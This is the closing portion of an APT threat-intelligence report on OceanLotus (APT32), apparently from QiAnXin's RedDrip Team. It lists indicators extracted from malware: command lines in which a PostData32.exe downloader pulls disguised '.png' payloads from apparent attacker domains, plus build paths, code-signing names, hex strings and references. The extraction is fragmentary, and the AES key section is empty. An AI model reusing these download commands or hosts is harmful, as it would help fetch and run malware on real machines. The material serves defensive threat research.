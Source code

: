 
UA:\Code\Nb2VBS\Request\PostData32.exe -u https://ristineho.com/threex32.png -t 60000


XA:\Code\Macro_NB2\Request\PostData32.exe -u https://cortanasyn.com/kirr32.png -t 200000


C:\Users\WIN7UTL64\Desktop\Macro_NB2_new\Request\PostData32.exe


{C:\Users\WIN7UTL64\Desktop\Macro_NB2_new\Request\PostData32.exe -u https://office.allsafebrowsing.com/fdsw32.png -t 240000


SecurityAndMaintenance_Error.bin


d:\work\malware\vinacap\SecurityAndMaintenance_Error.png


d:\work\forensics\vinacap\dfir\nhule\files\SecurityAndMaintenance_Error.png


D:\work\forensics\vinacap\DFIR\Nhule\files\SecurityAndMaintenance_Error.png











MAC signatures：


Melinda Cline (P74QRJXB2F)


DAVID DOWELL (B5YH6VDVRE)



AES KEY：









Decrypted  String
4E620ABEDAFB4D9866CC9D9C2D29E2D7EA18ADF1


Encrypted  Packet
07E74FF2CE9688C8F79B91AB32C95D11C140D3AC



References
[1] https://ti.qianxin.com/blog/articles/oceanlotus-targets-chinese-university/
[2] https://twitter.com/blackorbird/status/1118399331688570880
[3] https://medium.com/@sp1d3rm4n/apt32-oceanlotus-m%E1%BB%99t-chi%E1%BA%BFn-d%E1%BB%8Bch-apt-b%C3%A0i-b%E1%BA%A3n-nh%C6%B0-th%E1%BA%BF-n%C3%A0o-ph%E1%BA%A7n-2-119a24585d9a
[4] https://twitter.com/blackorbird/status/1086186184768815104
[5] https://twitter.com/RedDrip7/status/1119204830633848834
Appendix
RedDrip Team
RedDrip Team of QiAnXin (Formly SkyEye Team), founded in 2015, focuses on the research of APT attacks. As the first team of revealing OceanLotus (APT-C-00) attack, RedDrip Team is also a key part of QiAnXin Threat Intelligence Center.
Our team has security analysts, developers, covering full cycle of threat intelligence operation: data sourcing, processing, analyzing, and correlation. Our threat intelligence supports QiAnXin products and third party products.
Relying on leading security data capacity and security expertise, we found several noteworthy APT campaigns, including OceanLotus.
Follow us in WeChat
